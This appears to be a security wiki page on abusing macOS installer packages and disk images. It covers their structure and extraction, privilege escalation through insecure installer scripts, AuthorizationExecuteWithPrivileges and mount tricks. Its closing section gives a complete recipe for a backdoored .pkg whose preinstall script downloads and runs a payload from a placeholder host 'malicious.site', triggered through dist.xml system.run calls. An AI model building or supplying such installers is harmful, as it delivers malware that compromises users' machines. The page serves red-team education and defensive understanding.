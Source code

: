 # macOS Installers Abuse

## Pkg Basic Information

A macOS **installer package** (also known as a `.pkg` file) is a file format used by macOS to **distribute software**. These files are like a **box that contains everything a piece of software** needs to install and run correctly.

The package file itself is an archive that holds a **hierarchy of files and directories that will be installed on the target** computer. It can also include **scripts** to perform tasks before and after the installation, like setting up configuration files or cleaning up old versions of the software.

### Hierarchy

![https://www.youtube.com/watch?v=iASSG0_zobQ](../../../images/Pasted Graphic.png)

- **Distribution (xml)**: Customizations (title, welcome text…) and script/installation checks
- **PackageInfo (xml)**: Info, install requirements, install location, paths to scripts to run
- **Bill of materials (bom)**: List of files to install, update or remove with file permissions
- **Payload (CPIO archive gzip compresses)**: Files to install in the `install-location` from PackageInfo
- **Scripts (CPIO archive gzip compressed)**: Pre and post install scripts and more resources extracted to a temp directory for execution.

### Decompress

```bash
# Tool to directly get the files inside a package
pkgutil —expand "/path/to/package.pkg" "/path/to/out/dir"

# Get the files ina. more manual way
mkdir -p "/path/to/out/dir"
cd "/path/to/out/dir"
xar -xf "/path/to/package.pkg"

# Decompress also the CPIO gzip compressed ones
cat Scripts | gzip -dc | cpio -i
cpio -i < Scripts
```

In order to visualize the contents of the installer without decompressing it manually you can also use the free tool [**Suspicious Package**](https://mothersruin.com/software/SuspiciousPackage/).

## DMG Basic Information

DMG files, or Apple Disk Images, are a file format used by Apple's macOS for disk images. A DMG file is essentially a **mountable disk image** (it contains its own filesystem) that contains raw block data typically compressed and sometimes encrypted. When you open a DMG file, macOS **mounts it as if it were a physical disk**, allowing you to access its contents.

> [!CAUTION]
> Note that **`.dmg`** installers support **so many formats** that in the past some of them containing vulnerabilities were abused to obtain **kernel code execution**.

### Hierarchy

![](../../../images/image (225).png)

The hierarchy of a DMG file can be different based on the content. However, for application DMGs, it usually follows this structure:

- Top Level: This is the root of the disk image. It often contains the application and possibly a link to the Applications folder.
  - Application (.app): This is the actual application. In macOS, an application is typically a package that contains many individual files and folders that make up the application.
  - Applications Link: This is a shortcut to the Applications folder in macOS. The purpose of this is to make it easy for you to install the application. You can drag the .app file to this shortcut to install the app.

## Privesc via pkg abuse

### Execution from public directories

If a pre or post installation script is for example executing from **`/var/tmp/Installerutil`**, and attacker could control that script so he escalate privileges whenever it's executed. Or another similar example:

![https://www.youtube.com/watch?v=iASSG0_zobQ](../../../images/Pasted Graphic 5.png)

*<https://www.youtube.com/watch?v=kCXhIYtODBg>*

### AuthorizationExecuteWithPrivileges

This is a [public function](https://developer.apple.com/documentation/security/1540038-authorizationexecutewithprivileg) that several installers and updaters will call to **execute something as root**. This function accepts the **path** of the **file** to **execute** as parameter, however, if an attacker could **modify** this file, he will be able to **abuse** its execution with root to **escalate privileges**.

```bash
# Breakpoint in the function to check wich file is loaded
(lldb) b AuthorizationExecuteWithPrivileges
# You could also check FS events to find this missconfig
```

For more info check this talk: [https://www.youtube.com/watch?v=lTOItyjTTkw](https://www.youtube.com/watch?v=lTOItyjTTkw)

### Execution by mounting

If an installer writes to `/tmp/fixedname/bla/bla`, it's possible to **create a mount** over `/tmp/fixedname` with noowners so you could **modify any file during the installation** to abuse the installation process.

An example of this is **CVE-2021-26089** which managed to **overwrite a periodic script** to get execution as root. For more information take a look to the talk: [**OBTS v4.0: "Mount(ain) of Bugs" - Csaba Fitzl**](https://www.youtube.com/watch?v=jSYPazD4VcE)

## pkg as malware

### Empty Payload

It's possible to just generate a **`.pkg`** file with **pre and post-install scripts** without any real payload apart from the malware inside the scripts.

### JS in Distribution xml

It's possible to add **`<script>`** tags in the **distribution xml** file of the package and that code will get executed and it can **execute commands** using **`system.run`**:

![](../../../images/image (1043).png)

### Backdoored Installer

Malicious installer using a script and JS code inside dist.xml

```bash
# Package structure
mkdir -p pkgroot/root/Applications/MyApp
mkdir -p pkgroot/scripts

# Create preinstall scripts
cat > pkgroot/scripts/preinstall <<EOF
#!/bin/bash
echo "Running preinstall script"
curl -o /tmp/payload.sh http://malicious.site/payload.sh
chmod +x /tmp/payload.sh
/tmp/payload.sh
exit 0
EOF

# Build package
pkgbuild --root pkgroot/root --scripts pkgroot/scripts --identifier com.malicious.myapp --version 1.0 myapp.pkg

# Generate the malicious dist.xml
cat > ./dist.xml <<EOF
<?xml version="1.0" encoding="utf-8"?>
<installer-gui-script minSpecVersion="1">
    <title>Malicious Installer</title>
    <options customize="allow" require-scripts="false"/>
    <script>
        <![CDATA[
        function installationCheck() {
            if (system.isSandboxed()) {
                my.result.title = "Cannot install in a sandbox.";
                my.result.message = "Please run this installer outside of a sandbox.";
                return false;
            }
            return true;
        }
        function volumeCheck() {
            return true;
        }
        function preflight() {
            system.run("/path/to/preinstall");
        }
        function postflight() {
            system.run("/path/to/postinstall");
        }
        ]]>
    </script>
    <choices-outline>
        <line choice="default">
            <line choice="myapp"/>
        </line>
    </choices-outline>
    <choice id="myapp" title="MyApp">
        <pkg-ref id="com.malicious.myapp"/>
    </choice>
    <pkg-ref id="com.malicious.myapp" installKBytes="0" auth="root">#myapp.pkg</pkg-ref>
</installer-gui-script>
EOF

# Buil final
productbuild --distribution dist.xml --package-path myapp.pkg final-installer.pkg
```

## References

- [**DEF CON 27 - Unpacking Pkgs A Look Inside Macos Installer Packages And Common Security Flaws**](https://www.youtube.com/watch?v=iASSG0_zobQ)
- [**OBTS v4.0: "The Wild World of macOS Installers" - Tony Lambert**](https://www.youtube.com/watch?v=Eow5uNHtmIg)
- [**DEF CON 27 - Unpacking Pkgs A Look Inside MacOS Installer Packages**](https://www.youtube.com/watch?v=kCXhIYtODBg)
- [https://redteamrecipe.com/macos-red-teaming?utm_source=pocket_shared#heading-exploiting-installer-packages](https://redteamrecipe.com/macos-red-teaming?utm_source=pocket_shared#heading-exploiting-installer-packages)

